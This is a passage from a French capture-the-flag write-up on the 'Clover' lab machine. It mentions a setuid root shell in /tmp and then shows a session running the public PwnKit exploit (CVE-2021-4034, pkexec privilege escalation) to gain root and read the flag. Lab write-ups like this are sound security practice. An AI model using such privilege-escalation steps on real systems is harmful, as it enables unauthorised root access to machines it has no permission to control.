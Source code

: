 On obtient alors un shell setuid root à /tmp/shell.

## Kansas City Shuffle

L'autre technique consiste à utiliser l'exploit `PwnKit`. Il faut disposer d'une certaine version de la libc pour que l'exploit fonctionne donc compiler même en statique sur une machine plus récente échouera.

Heureusement comme dis plus tôt je disposais d'une VM équivalente. A vrai dire j'avais même l'exploit `PwnKit` déjà compilé dessus :)

[GitHub - ly4k/PwnKit: Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation](https://github.com/ly4k/PwnKit/tree/main)

```shellsession
asta@Clover:/tmp$ ./PwnKit 
root@Clover:/tmp# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),118(bluetooth),1000(asta)
root@Clover:/tmp# cd /root
root@Clover:~# ls
proof.txt
root@Clover:~# cat proof.txt




             ________________________________________________
            /                                                \
           |    _________________________________________     |
           |   |                                         |    |
           |   |  # whoami                               |    |
           |   |  # root                                 |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |     Congratulations You PWN Clover!     |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |    974bd350558b912740f800a316c53afe     |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |_________________________________________|    |
           |                                                  |
            \_________________________________________________/
                   \___________________________________/
                ___________________________________________
             _-'    .-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.  --- `-_
          _-'.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.--.  .-.-.`-_
       _-'.-.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-`__`. .-.-.-.`-_
    _-'.-.-.-.-. .-----.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-----. .-.-.-.-.`-_
 _-'.-.-.-.-.-. .---.-. .-------------------------. .-.---. .---.-.-.-.`-_
:-------------------------------------------------------------------------:
`---._.-------------------------------------------------------------._.---'



// From 0xJin && 0xBush1do! If you root this, tag me on Twitter! @0xJin and @0xBush1do
```

CTF plutôt bien ficelé. Le chemin officiel demandais un peu de recherche manuelle.

*Publié le 14 février 2023*
